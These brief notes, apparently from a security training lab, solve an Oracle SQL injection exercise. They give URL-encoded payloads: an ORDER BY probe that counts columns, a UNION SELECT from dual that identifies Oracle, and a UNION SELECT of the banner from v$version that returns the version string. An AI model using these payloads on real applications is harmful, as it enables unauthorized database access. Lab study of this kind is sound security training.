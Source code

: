 # Lab: SQL injection attack, querying the database type and version on Oracle

Target :  display the database version string.

Analysis :

- number of columns is 2 , because `filter?category=Pets'+order+by+3+--` raises error in the backend
- `'+UNION+SELECT+'a','a'+FROM+dual--` -> oracle database
- `'+UNION+SELECT+'a',banner+FROM+v$version--`

- <https://regex101.com/>
  - cool website helps u with ur regular expresion
